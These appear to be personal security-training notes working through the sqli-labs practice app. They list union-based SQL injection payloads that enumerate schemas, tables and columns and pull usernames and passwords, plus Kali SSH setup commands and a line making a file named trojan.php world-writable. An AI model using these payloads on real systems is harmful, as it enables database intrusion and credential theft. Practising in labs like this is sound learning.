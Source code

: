 #### basic

1) order by 3

2) -1

3) union select 1, @@datadir, version()

4) 1, group_concat(schema_name), 3 from information_schema.schemata--+

5) 1, group_concat(table_name), 3 from information_schema.tables where table_schema="security"--+

6) http://127.0.0.1/sqli-labs-master/Less-3/index.php?id=-1') union select 1,group_concat(column_name),version() from information_schema.columns where table_name="users"--+

7) 1, username, password from users where id =2--+  





# kali linux for ssh

Include /etc/ssh/ssh_config.d/*.conf

;;;;;;;;;;;delete the #   at the line of PasswordAuthentication yes

vim /etc/ssh/ssh.config

service ssh restart  

--> to start the service of ssh

netstat -nulpt | grep ssh  

--> check the opening port 



su root  

-->  to gain the previlage of the admin





chgrp -R kali 1.txt

chown -R kali 1.txt

chmod 777 trojan.php



# Info gathering

## TOOLs

whois

;;;;;;;;;;;;;;;;;;;;--> domain name/ manager info/ Ltd. info
